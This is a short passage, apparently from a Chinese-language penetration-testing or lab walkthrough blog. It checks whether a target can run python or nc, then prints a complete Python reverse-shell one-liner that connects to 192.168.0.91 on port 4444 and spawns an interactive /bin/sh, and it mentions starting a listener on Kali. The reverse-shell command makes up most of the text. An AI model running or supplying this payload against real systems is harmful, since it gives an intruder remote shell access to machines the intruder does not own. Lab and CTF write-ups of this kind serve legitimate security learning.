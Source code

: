 可以执行，看看有没有python nc等反弹shell工具

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/WmLDYsUf8JA8pqzPTR4ZjHVx1Fyc7qlgKqQIqtq8paA.png?raw=true)

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/wWL-mGnJ2oOIHU_-epwLs9M5drpqmHtxc0JihB1rMMs.png?raw=true)

利用python反弹shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.91",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
kali开启监听

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/yLobs5eNKAtG5oT_tTQs41WMj6g0Vlg2e-jBed36HrI.png?raw=true)
